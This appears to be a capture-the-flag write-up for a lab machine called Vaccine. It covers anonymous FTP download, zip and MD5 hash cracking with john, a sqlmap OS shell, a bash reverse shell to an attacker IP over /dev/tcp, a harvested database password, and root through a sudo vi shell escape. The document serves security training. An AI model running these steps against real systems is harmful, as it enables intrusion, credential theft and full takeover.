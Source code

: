 # 1- Enumeration
## Nmap
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.16.82
|      Logged in as ftpuser
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0ee58077534b00b9165b259569527a4 (RSA)
|   256 ac6e81188922d7a7417d814f1bb8b251 (ECDSA)
|_  256 425bc321dfefa20bc95e03421d69d028 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: MegaCorp Login
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

## Gobuster


# 2- Exploitation
# ftp connexion
ftp> ls
229 Entering Extended Passive Mode (|||10726|)
150 Here comes the directory listing.
-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
226 Directory send OK.
ftp> get backup.zip

## Extract zip file
┌──(root㉿kali)-[~]
└─# zip2john backup.zip > zip.txt
┌──(root㉿kali)-[~]
└─# john zip.txt --wordlist=/usr/share/wordlists/rockyou.txt
741852963        (backup.zip)

┌──(root㉿kali)-[~]
└─# ls
backup.zip  index.php  style.css

## Find
┌──(root㉿kali)-[~]
└─# cat index.php 
<?php
session_start();
  if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
      $_SESSION['login'] = "true";
      header("Location: dashboard.php");
    }
  }
?>
creds = admin:2cb42f8734ea607eefed3b70af13bbd3
## Crack md5 hash
#crackPass 
┌──(root㉿kali)-[/home/kali/Desktop/vacine]
└─# echo "2cb42f8734ea607eefed3b70af13bbd3" > md5
┌──(root㉿kali)-[/home/kali/Desktop/vacine]
└─# john md5 -wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5    
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 SSE2 4x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
[qwerty789]        (?) 

## Creds = admin:qwerty789

┌──(root㉿kali)-[~]
└─# sqlmap -u 'http://htb/dashboard.php?search=any+query' --cookie="PHPSESSID=383oqquk0pj0o982b0juqhiuel" --os-shell
os-shell> bash -c 'bash -i >& /dev/tcp/10.10.16.82/1234 0>&1'

# Foothold
[postgres@vaccine:/var/lib/postgresql$] cat user.txt
ec9b13ca4d6229cd5cc1e09980965bf7

## Find 
[postgres@vaccine:/var/www/html$] cat dashboard.php
	$conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");

# PrivEsc
┌──(root㉿kali)-[~]
└─# ssh postgres@htb
[postgres@vaccine:/var/lib$] sudo -l
[sudo] password for postgres: 
	Matching Defaults entries for postgres on vaccine:
	    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
	    XFILESEARCHPATH XUSERFILESEARCHPATH",
	    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
	    mail_badpass
	
	User postgres may run the following commands on vaccine:
	    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf

[postgres@vaccine:/var/lib$] sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
In Vi : #ExploitVi
	:set shell=/bin/sh 
	:shell
~~~
	# id
	uid=0(root) gid=0(root) groups=0(root)
	
	# cd
	# ls
	pg_hba.conf  root.txt  snap
	# cat root
	cat: root: No such file or directory
	# cat root.txt
	dd6e058e814260bc70e9bbdef2715849
~~~

